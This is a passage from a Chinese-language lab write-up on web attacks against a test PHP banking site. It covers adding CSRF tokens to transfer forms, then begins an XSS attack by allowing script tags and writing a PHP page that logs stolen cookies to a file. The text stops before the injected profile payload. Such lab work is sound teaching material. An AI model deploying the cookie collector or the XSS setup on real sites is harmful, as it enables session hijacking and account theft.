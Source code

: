 这里我们需要实现的效果是，每次transfer使用的token都不同，所以必须在transfer.php页面写上
```
$_SESSION["csrf"] = md5(uniqid(mt_rand(), true));
```

然而这样还不够，因为要保证提交的表单和当前token的一致性，只能在提交之后再刷新当前token，那么第一次的token生成就必须在其他页面，这里我写在了auth.php页面，也就是每一次登陆就生成一个token
在auth.php中

![image.png-37.1kB][11]

在transfer.php中

![image.png-16.4kB][12]

同时添加一个隐藏的表单项

![image.png-12.6kB][13]

测试一下，正常转账

![image.png-373kB][14]

点击恶意链接前

![image.png-329.6kB][15]

点击恶意链接后

![image.png-331.4kB][16]

### 一个偷走Cookie的XSS攻击
接下来是XSS攻击，XSS攻击不需要受攻击者点击额外的页面，而是直接在用户常浏览的网页中注入代码，当用户浏览到此时，就会执行注入的代码，达到攻击者的目的

原网站中已经进行了XSS防护，即通过禁止插入某些标签和关键词的方式，这里为了降低实验难度，放开`<script>`标签的使用限制，在user.php中，在allowed_tag后面增加一个`<script>`标签

![image.png-15.7kB][17]

为了区别于CSRF，在这里注册了一个新用户attacer2

此外，为了实现偷走cookie，还得写一个页面用于将用户cookie写到文件中

```
<?php
$myfile = fopen("/home/zhanhao/cookies.txt", "a+");
$cookie = $_GET["cookie"];
echo $cookie;
fwrite($myfile, $cookie);
fwrite($myfile,"\n");
fclose($myfile);
?>
```

然后将attacker2的profile改为


  [1]: http://static.zybuluo.com/windmelon/wb811isbgudgxpwq3gql295l/image.png
  [2]: http://static.zybuluo.com/windmelon/wyx5ihu7231uhd2z4zen96v0/image.png
  [3]: http://static.zybuluo.com/windmelon/459nrgijj9fcfe1mnwmocwaz/image.png
  [4]: http://static.zybuluo.com/windmelon/4apbtvxowy8byf2r8sy00vwc/image.png
  [5]: http://static.zybuluo.com/windmelon/zhv22vh8kiee315pynnekpay/image.png
  [6]: http://static.zybuluo.com/windmelon/oyxu17g61e73obkuqpicdt5s/image.png
  [7]: http://static.zybuluo.com/windmelon/zueizan9qwib440o3u7e65r1/image.png
  [8]: http://static.zybuluo.com/windmelon/yuz8tlyumpk4iley96kh2zat/image.png
  [9]: http://static.zybuluo.com/windmelon/4sl9akwn8wkif8saiz18ych2/image.png
  [10]: http://static.zybuluo.com/windmelon/an7u931j8d3k2kloew2dqx4s/image.png
  [11]: http://static.zybuluo.com/windmelon/cm5fhx4rqefxyqgf9bf54mye/image.png
  [12]: http://static.zybuluo.com/windmelon/onasvozrwzjeke0v79ou4gf6/image.png
  [13]: http://static.zybuluo.com/windmelon/f2p365lanf3o5z0m81oissef/image.png
  [14]: http://static.zybuluo.com/windmelon/td0ujhhpj98huuavszqte7af/image.png
  [15]: http://static.zybuluo.com/windmelon/e2i42q655dvysq1vzib6db4o/image.png
  [16]: http://static.zybuluo.com/windmelon/oh1qedj7ib0l4zassgjw3egx/image.png
  [17]: http://static.zybuluo.com/windmelon/uztoeycovas7djn70ufmnxv6/image.png
  [18]: http://static.zybuluo.com/windmelon/1ukhzrrze1yfio0jr0dfecot/image.png
  [19]: http://static.zybuluo.com/windmelon/hq9z9c0vqadofbneknehndmu/image.png
  [20]: http://static.zybuluo.com/windmelon/4xzlyz6fwizmhi5cwruwj0fy/image.png
  [21]: http://static.zybuluo.com/windmelon/82u2r6moargordan63iegyl4/image.png
  [22]: http://static.zybuluo.com/windmelon/u1v3flj7eqqdtuadwdggo3b7/image.png
  [23]: http://static.zybuluo.com/windmelon/7zqenr92vyowh26fhqrgn4oi/image.png
  [24]: http://static.zybuluo.com/windmelon/7pg51wksqvjvf8abqrfsrgk7/image.png
  [25]: http://static.zybuluo.com/windmelon/k0r0eu13ls0ig234fwn3tsnj/image.png